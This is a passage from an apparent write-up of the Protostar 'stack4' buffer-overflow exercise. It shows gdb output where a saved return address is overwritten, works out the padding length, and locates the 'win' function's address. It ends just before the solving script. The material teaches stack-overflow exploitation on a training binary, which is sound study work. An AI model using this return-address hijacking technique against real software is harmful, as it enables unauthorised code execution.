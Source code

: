 ``` shell
>x/1i $eip
>end
(gdb) r < /tmp/exp
Starting program: /opt/protostar/bin/stack4 < /tmp/exp
0xbffff7cc:     0x54545454      0x55555555      0x56565656      0x57575757
0xbffff7dc:     0x58585858      0x59595959      0x5a5a5a5a      0xb7ffef00
0xbffff7ec:     0x0804824b      0x00000001      0xbffff830      0xb7ff0626
0xbffff7fc:     0xb7fffab0      0xb7fe1b28      0xb7fd7ff4      0x00000000
0xbffff80c:     0x00000000      0xbffff848      0xf93bc179      0xd36c1769
0xbffff81c:     0x00000000      0x00000000      0x00000000      0x00000001
0x804841e <main+22>:    ret

Breakpoint 1, 0x0804841e in main (argc=Cannot access memory at address 0x5353535b
) at stack4/stack4.c:16
...
(gdb) si
Cannot access memory at address 0x53535357
(gdb) info registers
eax            0xbffff780       -1073744000
ecx            0xbffff780       -1073744000
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff7d0       0xbffff7d0
ebp            0x53535353       0x53535353
esi            0x0      0
edi            0x0      0
eip            0x54545454       0x54545454
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
``` 

First, I run my script and save its output to **/tmp/exp**. Then, I start the program in `gdb` and set a breakpoint at `0x0804841e`, which is the **ret** instruction. This lets me check the value of **eip** right before the function returns.

When the program hits the breakpoint, I see that **eip** holds the value **0x54545454**, and **0x54** corresponds to the character 'T'. So my padding will start from 'A' to 'S'.

Now, to complete the exploit, I just need to replace the next 4 bytes with the address of the **win** function. Once I do that, I’ll beat this level.

Here is how I find the address of **win**:

``` shell
(gdb) p win
$1 = {void (void)} 0x80483f4 <win>
```

This is my script to solve the level:
